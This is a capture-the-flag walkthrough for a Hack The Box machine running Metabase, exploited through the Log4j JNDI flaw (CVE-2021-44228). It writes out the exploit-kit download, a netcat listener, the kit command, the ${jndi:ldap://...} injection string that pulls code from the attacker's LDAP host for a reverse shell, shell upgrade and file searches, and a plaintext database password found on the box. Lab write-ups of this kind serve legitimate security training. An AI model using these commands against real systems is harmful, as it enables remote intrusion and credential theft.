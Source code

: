## Synopsis
Remote Code Execution vulnerability in apache Log4j2 ≤= 2.14.1

Allows attackers to execute arbitrary system command by loading code from an attacker-controlled LDAP server via the Java Naming Directory Interface JNDI reported by [CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228)
[Metabase](https://www.metabase.com/) is a BI tool with friendly UX and intergrated tooling to let your company explore data on their own. This Hack the box machine is considerd as **Very Easy**
## :scroll: TL:DR :scroll:
Scan ports and use basic enumeration.
find **user** and **root flag** trough remote code execution. Therefore use this  [exploit](https://github.com/pimps/JNDI-Exploit-Kit/) and setup `netcat` using kali linux as our OS.  
## :rocket: getting started :rocket:
We add the `domain` and `ip` to `/etc/hosts` .
```
echo "10.10.69.123 metabase.htb" | sudo tee -a /etc/hosts
```
## enumeration
As we start with a `nmap` scan it revails a `nginx server` listening on port 80 and we are redirected to `metabase.htb`.

We also look for something interesting in source code with `curl`
```sh
curl -v metabase.htb
```


## Expliotation
We found the information here for `JNDI injections` vulnerabilities. Public expliots are available. We look for  a suitable [exploit](https://github.com/pimps/JNDI-Exploit-Kit/) and download the available compiled version to our kali linux:
```sh
wget https://github.com/pimps/JNDI-Exploit-Kit/raw/master/target/JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar
```

## Privilege Escalation
Getting prepared for privilege escalation we have to setup `netcat` and we listen on port `4444`.
```sh
nc -lvnp 4444
```

Now we can run this exploit by specifiying the LDAP server adress `IP:port` with the `-L` option and the adress of our listener with the `-S` option:

```sh
java -jar JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -L 10.10.14.7:1389 -S 10.10.14.22:4444
```

We pick the LDAP payload targeting with `trustURLCodebase=true` and type the following string to the Native query Matabase page

NOTE: While suggesting otherwise the option `JDK 1.8` was not working for me.

We add a query in `sample data`:
```sh
${jndi:ldap://10.10.14.7:1389/57sbhf}
```
![db query](../img/db_query.png)

Now we see in our terminal a succesfull privilege escalation en try to upgrade our shell to a fully interactive pty. Due to the fact `python3` is installed on the host, we run:
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

We can now search for files owned by the **metabase** group:
```sh
find / -group metabase -ls 2>/dev/null | grep -v /proc
```
A password is found in plain text in a `metabase` database `/etc/default/metabase`:
```sh
cat /etc/default/metabase
MB_DB_PASS=fHj3sxZ0.f
```

## Wrap it up!
the user flag is found in `/opt/metabase/user.txt`
The root flag is found in `root/root.txt`


## :old_key:NOTES:

### :mortar_board: Lessens learned
1. JNDI features used in configuration, log messages, and parameters do not protect against attacker controlled LDAP and other JNDI related endpoints.
2. An attacker who can control log messages or log message parameters can execute arbitrary code loaded from LDAP servers when message lookup substitution is enabled.
3. Make proper notes, I did not make all the notes carefully :bowtie:
4. Metabase is an open-source Business Intelligence tool and helps you question your data and display answers in usefull formats and creating dashboards. 
